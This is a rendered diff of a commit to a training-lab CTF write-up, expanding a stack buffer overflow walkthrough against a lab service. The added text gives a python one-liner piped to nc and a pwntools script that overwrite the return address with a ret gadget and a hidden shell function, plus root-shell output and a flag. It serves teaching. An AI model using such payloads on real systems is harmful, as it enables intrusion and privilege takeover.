

Before and after one commit to bayufedra/MBPTL, a Markdown page: writeup/README.md, the part around the change printed below. Shown: that part at 85% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/writeup/README.md
+++ b/writeup/README.md
@@ -505,15 +555,65 @@ We can analyze how program work by analyzing given binary with the name **mbptl-
+**Why the ret gadget?**
+- Modern x86_64 systems often require 16-byte stack alignment
+- The ret gadget ensures proper stack alignment before calling the target function
+- This prevents potential segmentation faults due to misaligned stack
+
+#### Step 3: Execute the Exploit
+
+**Method 1: Python3 with struct module**
 ```bash
 (python3 -c 'import struct, sys; sys.stdout.buffer.write(b"A"*136 + struct.pack("<Q", 0x401282) + struct.pack("<Q", 0x4011b6))'; cat -) | nc mbptl-internal 31337
 ```
-- This command sends the overflow payload to the service, spawning a shell.
 
-#### Reading the Flag
-Once the shell is obtained, simply read the flag:
-```bash
-cat /flag.txt
+**Method 2: Using pwntools (alternative approach)**
+```python
+#!/usr/bin/env python3
+from pwn import *
+
+# Set up the connection
+p = remote('mbptl-internal', 31337)
+
+# Craft the payload
+payload = b"A" * 136
+payload += p64(0x401282)  # ret gadget
+payload += p64(0x4011b6)  # secret function
+
+# Send the payload
+p.sendline(payload)
+
+# Get interactive shell
+p.interactive()
 ```
 
-**Flag:**
+### Exploitation Results
+
+Upon successful exploitation, we gain a shell with elevated privileges:
+
+```bash
+# The exploit spawns a bash shell
+$ id
+uid=0(root) gid=0(root) groups=0(root)
+
+# Read the flag
+$ cat /flag.txt
+FLAG{c7e0cb7880fd168f41f25e24767660f6}
+```
+
+### Technical Details
+
+#### Why This Exploit Works
+1. **No Stack Protection:** The binary lacks stack canaries, allowing us to overwrite the return address
+2. **Predictable Addresses:** No PIE means function addresses are static and predictable
+3. **Controlled Input:** We can send arbitrary data to overflow the buffer
+4. **Useful Gadget:** The `__secret()` function provides a direct path to shell execution
+
+#### Security Implications
+This vulnerability demonstrates several critical security failures:
+- Use of unsafe functions (`gets()`)
+- Lack of modern security protections
+- Hidden backdoor functions in production code
+- Insufficient input validation
+
+### Flag
 ```
 FLAG{c7e0cb7880fd168f41f25e24767660f6}
 ```
````
Also changed, not shown: other parts of writeup/README.md (+64 -14 lines).
